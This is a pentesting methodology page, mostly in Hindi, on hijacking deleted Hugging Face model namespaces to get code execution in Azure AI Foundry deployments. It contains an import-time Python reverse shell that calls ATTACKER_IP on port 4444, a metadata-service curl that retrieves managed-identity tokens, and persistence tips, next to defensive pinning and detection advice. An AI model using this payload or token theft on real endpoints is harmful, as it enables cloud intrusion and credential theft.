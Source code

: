 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## परिदृश्य

- Azure AI Foundry Model Catalog में one-click deployment के लिए कई Hugging Face (HF) मॉडल शामिल हैं।
- HF model identifiers Author/ModelName हैं। यदि कोई HF author/org deleted हो जाता है, तो कोई भी उस author को फिर से रजिस्टर कर सकता है और उसी ModelName के साथ legacy path पर मॉडल प्रकाशित कर सकता है।
- सिर्फ name के आधार पर pull करने वाले pipelines और catalogs (no commit pinning/integrity) attacker-controlled repos की ओर resolve होंगे। जब Azure मॉडल को deploy करता है, तो loader code endpoint environment में execute कर सकता है, जिससे उस endpoint की permissions के साथ RCE मिल सकती है।

सामान्य HF takeover केस:
- Ownership deletion: पुराना path takeover तक 404 रहता है।
- Ownership transfer: जब तक पुराना author मौजूद है, पुराना path नए author की ओर 307 redirect करता है। अगर बाद में पुराना author delete और फिर से re-register कर दिया जाता है, तो redirect टूट जाता है और attacker की repo legacy path पर serve करने लगती है।

## Reusable Namespaces (HF) की पहचान
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-to-end Attack Flow against Azure AI Foundry

1) Model Catalog में उन HF models को ढूंढें जिनके original authors HF पर deleted या transferred हो चुके हैं (old author removed)।
2) HF पर abandoned author को पुनः register करें और ModelName को recreate करें।
3) एक malicious repo प्रकाशित करें जिसमें loader code हो जो import पर execute होता है या जिसके लिए trust_remote_code=True आवश्यक हो।
4) Azure AI Foundry से legacy Author/ModelName को deploy करें। प्लेटफ़ॉर्म attacker repo को pull करता है; loader Azure endpoint container/VM के अंदर execute होता है, जिससे endpoint permissions के साथ RCE प्राप्त होती है।

Import पर execute होने वाला example payload fragment (केवल demonstration के लिए):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
नोट्स
- AI Foundry deployments जो HF के साथ integrate होते हैं, आम तौर पर मॉडल की config में referenced repo modules (जैसे auto_map) को clone और import करते हैं, जो code execution trigger कर सकते हैं। कुछ paths पर trust_remote_code=True की ज़रूरत होती है।
- Access आमतौर पर endpoint की managed identity/service principal permissions के अनुरूप होता है। इसे Azure के भीतर data access और lateral movement के लिए initial access foothold के रूप में मानें।

## Post-Exploitation Tips (Azure Endpoint)

- Environment variables और MSI endpoints में tokens के लिए enumerate करें:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- acquired token के साथ mounted storage, model artifacts, और reachable Azure services की जाँच करें।
- यदि platform HF से पुनः re-pull करती है तो persistence के लिए poisoned model artifacts छोड़ने पर विचार करें।

## Azure AI Foundry उपयोगकर्ताओं के लिए रक्षात्मक मार्गदर्शन

- Pin models by commit when loading from HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- सत्यापित HF models को एक विश्वसनीय आंतरिक registry में mirror करें और वहीं से deploy करें।
- लगातार codebases और defaults/docstrings/notebooks को scan करें ताकि hard-coded Author/ModelName जो deleted/transferred हों पता चलें; उन्हें update या pin करें।
- डिप्लॉयमेंट से पहले लेखक की मौजूदगी और मॉडल की उत्पत्ति सत्यापित करें।

## पहचान हीयूरिस्टिक्स (HTTP)

- Deleted author: लेखक पेज 404; legacy model path 404 रहेगा जब तक takeover न हो।
- Transferred model: legacy path 307 नए लेखक की ओर जाता है जबकि पुराना लेखक मौजूद है; अगर बाद में पुराना लेखक हटाया गया और पुनः पंजीकृत हुआ, तो legacy path attacker content सर्व करेगा।
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## पार-संदर्भ

- विस्तृत कार्यप्रणाली और सप्लाई-चेन नोट्स देखें:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## संदर्भ

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
